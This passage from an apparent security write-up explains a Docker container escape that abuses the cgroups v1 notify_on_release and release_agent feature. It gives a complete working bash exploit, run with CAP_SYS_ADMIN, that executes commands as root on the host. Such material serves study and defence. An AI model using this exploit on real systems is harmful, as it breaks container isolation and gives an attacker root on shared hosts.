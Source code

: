 ### Using cgroups to deliver the exploit

The PoC abuses the functionality of the `notify_on_release` feature in cgroups v1 to run the exploit as a fully privileged root user.

When the last task in a cgroup leaves (by exiting or attaching to another cgroup), a command supplied in the `release_agent` file is executed. The intended use for this is to help prune abandoned cgroups. This command, when invoked, is run as a fully privileged root on the host.

[What does notify_on_release do?](https://www.kernel.org/doc/Documentation/cgroup-v1/cgroups.txt)

If the `notify_on_release` flag is enabled in a cgroup, then whenever the last task in the cgroup leaves (exits or attaches to some other cgroup) and the last child cgroup of that cgroup is removed, then the kernel runs the command specified by the contents of the `release_agent` file in that hierarchy's root directory, supplying the pathname (relative to the mount point of the cgroup file system) of the abandoned cgroup. This enables automatic removal of abandoned cgroups. The default value of `notify_on_release` in the root cgroup at system boot is disabled. The default value of other cgroups at creation is the current value of their parents `notify_on_release` settings. The default value of a cgroup hierarchy's `release_agent` path is empty.

### Escape only with CAP_SYS_ADMIN capability

There is a simpler way to write this exploit so it works without the `--privileged` flag. In this scenario, you won't have access to a read-write cgroup mount provided by `--privileged`. For this you will just mount the cgroup as read-write ourselves. This adds one extra line to the exploit but requires fewer privileges.

An example of a command to run the container on the host:

```bash
$ docker run --rm -it --cap-add=SYS_ADMIN --security-opt apparmor=unconfined ubuntu bash
```

The exploit below will execute a `ps aux` command on the host and save its output to the `/output` file in the container. It uses the same `release_agent` feature as the original PoC to execute on the host.

```bash
# Mounts the RDMA cgroup controller and create a child cgroup
# This technique should work with the majority of cgroup controllers
# If you're following along and get "mount: /tmp/cgrp: special device cgroup does not exist"
# It's because your setup doesn't have the RDMA cgroup controller, try change rdma to memory to fix it
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
# Enables cgroup notifications on release of the "x" cgroup
echo 1 > /tmp/cgrp/x/notify_on_release
# Finds path of OverlayFS mount for container
# Unless the configuration explicitly exposes the mount point of the host filesystem
# see https://ajxchapman.github.io/containers/2020/11/19/privileged-container-escape.html
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
# Sets release_agent to /path/payload
echo "$host_path/cmd" > /tmp/cgrp/release_agent
# Creates a payload
echo "#!/bin/sh" > /cmd
echo "ps aux > $host_path/output" >> /cmd
chmod a+x /cmd
# Executes the attack by spawning a process that immediately ends inside the "x" child cgroup
# By creating a /bin/sh process and writing its PID to the cgroup.procs file in "x" child cgroup directory
# The script on the host will execute after /bin/sh exits 
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
# Reads the output
cat /output
```
